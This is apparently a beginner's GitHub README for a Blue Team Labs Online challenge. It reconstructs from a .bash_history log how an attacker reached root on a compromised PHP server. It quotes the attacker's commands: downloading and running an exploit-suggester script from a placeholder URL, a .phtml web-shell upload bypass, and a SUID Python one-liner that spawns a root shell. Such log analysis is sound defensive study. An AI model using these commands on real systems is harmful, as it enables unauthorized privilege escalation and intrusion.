 🔐 BTLO Challenge: Privilege Escalation (Log Analysis)
This repository contains my beginner-friendly walkthrough of Linux privilege escalation techniques using a virtual lab setup. I explored how to escalate from a normal user to root by exploiting misconfigurations like SUID binaries, sudo permissions, and writable system files. All steps are documented for learning and practice purposes.

This repository documents my solution and analysis of the **Privilege Escalation (Log Analysis)** challenge on [Blue Team Labs Online](https://blueteamlabs.online). In this challenge, I analyzed a `.bash_history` log to trace how an attacker gained unauthorized **root access** on a compromised PHP server.


## 🧩 Challenge Overview

A web server running PHP was compromised, and sensitive data — accessible only to `root` — was leaked. The only evidence provided was a `bash_history` log file. My task was to:

- Analyze the attacker's commands
- Identify how they **escalated privileges**
- Determine which tools and techniques were used



## 🔍 Key Findings

### 👤 1. User Discovery
- The attacker explored `/home/daniel`, revealing a second user account:
  
  ```bash
  cd /home/daniel
  ls -la



⬇️ 2. Exploitation Script Downloaded

They downloaded linux-exploit-suggester.sh, a known privilege escalation enumeration tool:

wget http://<url>/linux-exploit-suggester.sh -O /tmp/suggester.sh
chmod +x /tmp/suggester.sh
./tmp/suggester.sh


📡 3. Network Analysis Using Tcpdump

The attacker used tcpdump, suggesting they were monitoring or capturing network traffic:

tcpdump -i any -nn port 80



🐚 4. Web Shell Bypass Using .phtml

They uploaded a .phtml file — a common trick to bypass .php upload restrictions:

upload.php?file=shell.phtml

This was likely used to establish a web shell before moving to a reverse shell.



🚩 5. Privilege Escalation via SUID Python

The attacker exploited a misconfigured SUID binary — /usr/bin/python — to gain root:

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

This method is listed on GTFOBins, confirming the privilege escalation technique.




📸 Screenshots

This folder contains supporting screenshots:
Check this in the file section.



📁 Folder: /screenshots/



📈 Summary of Attack Flow

1. Gained access via uploaded .phtml web shell

2. Performed local enumeration

3. Discovered user daniel and potential privilege escalation paths

4. Downloaded and ran Linux Exploit Suggester

5. Identified SUID-enabled Python

6. Gained root access using Python SUID GTFOBins method


🔐 Lessons Learned

Logs reveal everything — even .bash_history can expose full attack chains.

SUID misconfigurations are a major privilege escalation vector.

Tools like tcpdump can be used maliciously in post-exploitation scenarios.

Web upload bypasses using extensions like .phtml are still relevant.


📚 References

GTFOBins – Python SUID

PEASS-ng

Linux Exploit Suggester

StumbleSec BTLO Walkthrough

ERBATMAN BTLO Writeup

YouTube on BTLO


✨ Author
Rasheedah Haruna
Beginner Cybersecurity Enthusiast | Log Analyst | PrivEsc Explorer
📬 Connect with me on LinkedIn(www.linkedin.com/in/haruna-rasheedah-62622730b)

🛡️ Educational Purpose Only — Always practice ethical hacking in legal environments.
